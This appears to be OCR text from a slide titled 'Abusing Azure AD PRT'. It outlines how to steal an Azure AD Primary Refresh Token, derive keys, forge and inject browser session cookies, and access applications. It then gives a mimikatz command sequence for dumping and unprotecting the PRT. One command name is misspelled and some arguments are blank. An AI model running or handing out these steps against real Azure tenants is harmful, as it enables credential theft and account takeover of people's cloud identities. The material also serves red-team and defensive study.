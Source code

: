 
Abusing Azure AD PRT 
▪ Primary Refresh Token is the SSO artifact of Azure AD 
▪ The machine needs a corresponding device object in AAD 
▪ Protected by the TPM ▪ PRT can be used to request tokens (Refresh Token & Access Token) 
▪ Browser access is using cookies to handle sessions
1️⃣ Use the PRT to derive keys 
2️⃣ Generate your own cookies 
3️⃣ Inject your cookies in your browser 
4️⃣ Access the application

PRT and cookie manipulation with mimikatz

```powershell
 privilege::debug 
 sukurlsa::cloudap 
 token::elevate 
 dpapi::cloudapkd /keyvalue: /unprotect 
 dpapi::cloudapkd /prt: /derivedkey:
```
